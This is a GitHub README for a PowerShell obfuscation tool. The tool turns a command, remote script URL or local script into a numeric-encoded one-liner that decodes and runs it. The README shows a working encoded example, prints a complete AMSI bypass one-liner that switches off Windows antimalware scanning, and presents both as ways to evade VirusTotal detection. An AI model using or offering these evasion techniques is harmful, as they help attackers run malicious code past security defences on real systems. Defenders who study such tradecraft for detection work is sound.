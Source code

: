 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 6000 as an offset:
```powershell
@(6087,6114,6105,6116,6101,6045,6072,6111,6115,6116,6032,6034,6072,6101,6108,6108,6111,6032,6119,6111,6114,6108,6100,6033,6034)| % {$wdAQf=$wdAQf+[char]($_-6000)};.(gcm ?e[?x])($wdAQf)
```

# VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)```

Unmathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


